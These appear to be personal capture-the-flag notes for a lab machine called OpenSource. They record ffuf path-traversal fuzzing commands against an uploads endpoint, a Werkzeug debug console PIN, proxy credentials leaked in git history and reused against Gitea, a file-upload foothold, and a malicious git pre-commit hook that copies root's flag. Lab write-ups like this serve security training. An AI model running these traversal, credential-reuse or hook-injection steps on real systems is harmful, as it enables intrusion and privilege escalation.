 OpenSource

# Enumeration

## Web
### GET /uploads/<FILE>
LFI in GET /uploads/<LIF> [logs/gobuster/fuff_lfi]
Found files [loot/lfi]

$ cat /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt | sed "s/^\///g" | ffuf -fc 404,500,308 -mc all -c -w - -u ${URL}/uploads/..%2F..%2F..%2F%2F..%2F..%2FFUZZ | tee logs/gobuster/ffuf_lfi_etc
$ cat /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt | sed "s/^\///g" | ffuf -fc 404,500,308 -mc all -c -w - -u ${URL}/uploads/..%2F..%2F..%2F%2F..%2F..%2FFUZZ | tee logs/gobuster/ffuf_lfi_grace

### GET /upcloud
### POST /upcloud

### GET /console
PIN code required. Python console
#### GET /console?__debugger__=yes&cmd=pinauth&pin=0000&s=UGgHPQaV9yC6zWjZ5kdc

### GET /download
Downloads source code

## .git [loot/source]
```bash
$ dev branch
$ git show HEAD~2
-{
-  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
-  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
-  "http.proxyStrictSSL": false
-}
```
User found: dev01

# Foothold
upload [exploit/views.py] to POST /uploads with filename /app/app/views.py. See [exploit/foothold.py]

Docker container

Wegzeug pin: 467-691-774

$ hostname
8eb93908614f

/usr/local/lib/python3.10/site-packages/

## Port 3000 available from container
Gitea Version: 1.16.6

wget 172.17.0.1:3000/user/login --post-data="user_name=dev01&password=Soulless_Developer#2022" -O -

# User
Found SSH key in git under 'backup'

```bash
dev01@opensource:/var/opt/gitlab$ cat public_attributes.json 
{"gitlab":{"gitlab-rails":{"db_database":"gitlabhq_production"}},"postgresql":{"dir":"/var/opt/gitlab/postgresql","unix_socket_directory":"/var/opt/gitlab/postgresql","port":5432}}

dev01@opensource:$ dpkg -l | grep gitlab
rc  gitlab-ce                              14.8.4-ce.0                                     amd64        GitLab Community Edition (including NGINX, Postgres, Redis)

```
# Root
cat << EOF > .git/hooks/pre-commit
#!/bin/sh

cp /root/root.txt /home/dev01/root.txt
chmod 777 /home/dev01/root.txt
EOF
